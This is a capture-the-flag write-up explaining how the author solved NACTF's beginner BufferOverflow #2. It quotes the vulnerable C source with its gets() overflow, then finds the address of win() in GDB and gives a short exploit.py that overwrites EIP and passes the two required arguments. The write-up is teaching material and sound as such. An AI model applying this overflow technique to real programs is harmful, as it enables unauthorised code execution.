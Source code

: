 ```yaml
---
layout: post
title: BufferOverflow-#2 
tags: [Binary Exploitation]
comments: true
---
```


This is a writeup on how i solved **BufferOverflow #2** from NACTF. I hope this will help beginners in binary exploitation while doing ctfs. This is a Beginner level challenge.

**CTF : https://www.nactf.com/**

## Lets start..

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.1.png)

Download the binary to our system, make it executable and run the binary.

Like the previous challeneg, this binary is also just printing the input back to us, behaving like a echo program.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.2.png)

Lets analyse the source code of this binary to know how it is working.

Here is the source code:
~~~
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
    if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
    {
        puts("Close, but not quite.");
        exit(1);
    }
    printf("You win!\n");
    char buf[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
    }
    else
    {
        fgets(buf, sizeof(buf), f);
        printf("flag: %s\n", buf);
    }
}
void vuln()
{
    char buf[16];
    printf("Type something>");
    gets(buf);
    printf("You typed %s!\n", buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
~~~
From source code it is clear that we have to do the way we did for BufferOverflow #1 but we have to pass 2 arguments to win() function.

The function is checking the arguments we passed, we will get flag only after we pass the arguments in corrrect way.

But important thing is to note is the type of arg1 which is long long, which is 8 byte long.

Check more about 'C' data types.

So

arg1 =  0x0000000014B4DA55

arg2 =  0xF00DB4BE

Lets do it.

Like before first step is to controll eip register. I was managed to control eip register as you can see on the below image.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.3.png)

So now we controlled eip, controlled eip with 4 B's (BBBB=0X42424242).

Next step is to find the address of win() function and overwrite eip with that so win() function will get executed.

On  GDB type **disas win** and take the starting address of win() function.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.4.png)

adress of win() = 0x080491c2

Now we can craft our payload...

**payload = "A"*28 + address_of_win() +dummy_return + arg1 + arg2**

Create a file called exploit.py with the below contents.

exploit.py:
~~~
buffer = ""

#junk data
buffer += "A"*28 

#address of win() 0x080491c2
buffer += "\xc2\x91\x04\x08"

#dummy return address 0xf7e0b7a0
buffer += "\xa0\xb7\xe0\xf7"

#arg1 0x0000000014B4DA55
buffer += "\x55\xda\xb4\x14\x00\x00\x00\x00"

#arg2 0xF00DB4BE
buffer += "\xbe\xb4\x0d\xf0"

print buffer 
~~~

Lets do the final thing....

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.5.png)

So it is done.

Lets do it in the remote server...

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.6.png)

We got the flaaaaag ...    :)
